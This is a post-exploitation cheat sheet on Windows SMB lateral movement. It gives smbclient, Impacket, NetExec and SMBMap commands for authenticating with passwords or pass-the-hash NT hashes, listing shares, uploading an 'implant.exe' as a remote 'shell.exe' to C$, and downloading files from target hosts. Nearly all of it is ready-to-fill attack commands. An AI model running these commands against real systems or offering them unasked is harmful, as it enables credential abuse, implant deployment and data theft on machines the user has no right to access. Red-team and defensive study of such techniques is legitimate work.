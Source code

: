 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - windows
---
```

# Unix Shell

## 01 - Authenticate

### 1.1 - Samba Suite Utils

```
$ smbclient -U "[<domain>/]<username>%<password>" //<IP>/c$
```

Pass the Hash

```
$ smbclient -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> //<IP>/c$
```

### 1.2 - Impacket

```
$ smbclient.py [<domain>/]<username>:<password>@<IP>
```

Pass the Hash

```
$ smbclient.py -hashes :<nt_hash> [<domain>/]<username>@<IP>
```

### 1.3 - NetExec

#### 1.3.1 - Authentication

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth]
```

Pass the Hash

```
$ netexec smb <IP> -u "<username>" -H "<nt_hash>" [-d <domain> | --local-auth]
```

## 02 - List Files and Directories

### 2.1 - Samba Suite Utils

```
smb: \> ls
```

### 2.2 - Impacket

```
# use c$

# ls
```

### 2.3 - NetExec

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] --shares
```

## 03 - Copy Files

### 3.1 - Samba Suite Utils

Upload file

```
smb: \> put /local/path/to/implant.exe
```

Download file

```
smb: \> get \remote\path\to\file.txt
```

### 3.2 - Impacket

Upload file

```
# put /local/path/to/implant.exe
```

Download file

```
# get \remote\path\to\file.txt
```

### 3.3 - SMBMap

Upload file

```
$ smbmap -u "<username>" -p "< <password> | <nt_hash> >" [-d <domain>] -H <IP> --upload '/local/path/to/implant.exe' 'C$\remote\path\to\implant.exe'
```

Download file

```
$ smbmap -u "<username>" -p "< <password> | <nt_hash> >" [-d <domain>] -H <IP> --download 'C$\remote\path\to\file.txt'
```

### 3.4 - NetExec

Upload file

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] --put-file /local/path/to/implant.exe \\path\\to\\remote\\shell.exe

$ netexec smb <IP> -u "<username>" -H "<nt_hash>" [-d <domain> | --local-auth] --put-file /local/path/to/implant.exe \\path\\to\\remote\\shell.exe
```

Download file

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] --get-file \\remote\path\\to\\file.txt /local/path/to/file.txt

$ netexec smb <IP> -u "<username>" -H "<nt_hash>" [-d <domain> | --local-auth] --get-file \\remote\path\\to\\file.txt /local/path/to/file.txt
```

---
## References

- [NetExec Wiki: Get and Put Files](https://www.netexec.wiki/smb-protocol/get-and-put-files)